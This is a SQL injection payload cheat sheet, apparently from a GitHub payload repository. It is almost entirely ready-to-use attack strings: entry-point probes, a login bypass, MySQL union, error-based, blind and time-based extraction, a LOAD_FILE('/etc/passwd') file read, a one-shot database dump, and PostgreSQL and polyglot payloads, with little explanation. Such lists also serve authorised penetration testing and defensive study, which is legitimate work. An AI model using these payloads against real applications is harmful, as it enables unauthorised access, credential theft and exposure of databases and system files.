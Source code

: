 # SQL injection
A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application	

## Authentication bypass and Entry point detection

Detection of an SQL injection entry point
```
'
"
%27
" / %22
; / %3B
%%2727
%25%27
`+HERP
'||'DERP
'+'herp
' ' DERP
Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")
Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')
```


Authentication bypass - use the file "Authentication Bypass.txt"
```
SELECT id FROM users WHERE username='input1' AND password='input2'
SELECT id FROM users WHERE username='' or true-- AND password='input2'
```


# MYSQL
MySQL Union Based
```
gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata
gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema=...
gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name=...
gRoUp_cOncaT(0x7c,data,0x7C)+fRoM+...
```


MySQL Error Based - Basic
```
(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))
'+(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))+'
```

MYSQL Error Based - UpdateXML function
```
AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)),null)--
```

MYSQL Error Based - Extractvalue function
``` 
AND extractvalue(rand(),concat(CHAR(126),version(),CHAR(126)))--
AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)))--
AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)))--
AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)))--
AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)))--
```

MySQL Blind with MAKE_SET
```
MAKE_SET(YOLO<(SELECT(length(version()))),1)
MAKE_SET(YOLO<ascii(substring(version(),POS,1)),1)
MAKE_SET(YOLO<(SELECT(length(concat(login,password)))),1)
MAKE_SET(YOLO<ascii(substring(concat(login,password),POS,1)),1)
```


MySQL Time Based
```
+BENCHMARK(40000000,SHA1(1337))+
```


MySQL Read content of a file
```
' UNION ALL SELECT LOAD_FILE('/etc/passwd') --
```

MySQL DIOS - Dump in One Shot
```
(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)#
(select (@) from (select(@:=0x00),(select (@) from (db_data.table_data) where (@)in (@:=concat(@,0x0D,0x0A,0x7C,' [ ',column_data1,' ] > ',column_data2,' > ',0x7C))))a)#

```

# POSTGRESQL

PostgreSQL Error Based - Basic
```
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name=data_column+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)
```

# Other usefull payloads

Polyglot injection (multicontext)
```
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

## Thanks to
* http://www.sqlinjectionwiki.com/Categories/2/mysql-sql-injection-cheat-sheet/